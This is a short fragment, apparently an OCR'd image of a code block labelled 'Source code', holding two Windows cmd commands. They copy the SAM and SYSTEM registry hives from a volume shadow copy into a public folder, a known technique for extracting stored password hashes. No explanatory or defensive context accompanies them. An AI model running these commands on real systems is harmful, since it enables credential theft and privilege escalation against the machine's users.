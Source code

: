 ```
cmd /c 'copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SYSTEM C:\Users\Public\SYSTEM'
cmd /c 'copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\System32\config\SAM C:\Users\Public\SAM'
```
